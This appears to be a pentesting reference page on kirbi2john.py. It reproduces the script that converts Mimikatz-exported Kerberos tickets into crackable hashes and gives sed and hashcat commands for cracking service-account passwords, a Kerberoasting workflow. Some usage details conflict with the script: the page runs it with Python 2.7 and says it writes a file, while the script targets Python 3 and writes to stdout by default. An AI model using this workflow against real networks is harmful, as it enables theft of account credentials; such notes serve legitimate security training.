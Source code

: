 ```yaml
---
title: kirbi2john
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - mimikatz
  - kerberos
---
```

# kirbi2john.py

## Installation

At: [https://github.com/nidem/kerberoast/blob/master/kirbi2john.py](https://github.com/nidem/kerberoast/blob/master/kirbi2john.py).

Being the following script:


```
#!/usr/bin/env -S python3 -tt
# Based on the Kerberoast script from Tim Medin to extract the Kerberos tickets from a kirbi file.
# Modification to parse them into the JTR-format by Michael Kramer (SySS GmbH)
# Copyright [2015] [Tim Medin, Michael Kramer]
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#    http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License

from pyasn1.codec.ber import encoder, decoder
import glob
import kerberos


if __name__ == '__main__':
	import argparse
	import sys

	parser = argparse.ArgumentParser(description='Read Mimikatz kerberos ticket then modify it and save it in crack_file')
	parser.add_argument('-o', dest='crack_file', metavar='crack_file', type=argparse.FileType('w'), default=sys.stdout, nargs='?',
					help='File to save crackable output to (default is stdout')
	parser.add_argument('files', nargs='+', metavar='file.kirbi', type=str,
					help='File name to crack. Use asterisk \'*\' for many files.\n Files are exported with mimikatz or from extracttgsrepfrompcap.py')

	args = parser.parse_args()

	enctickets = []

	for path in args.files:
		for filename in glob.glob(path):
			et = kerberos.extract_ticket_from_kirbi(filename)
			if et:
				enctickets.append((et,filename))

	#out=open("crack_file","wb")
	for et in enctickets:
		filename = et[1].split('/')[-1].split('\\')[-1].replace('.kirbi','')

		out = '$krb5tgs$23$*' + filename + '*$' + et[0][:16].hex() + '$' +et[0][16:].hex() + '\n'

		args.crack_file.writelines(out)
	sys.stderr.write('tickets written: ' + str(len(enctickets)) + '\n')
```


## Basic usage

```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```
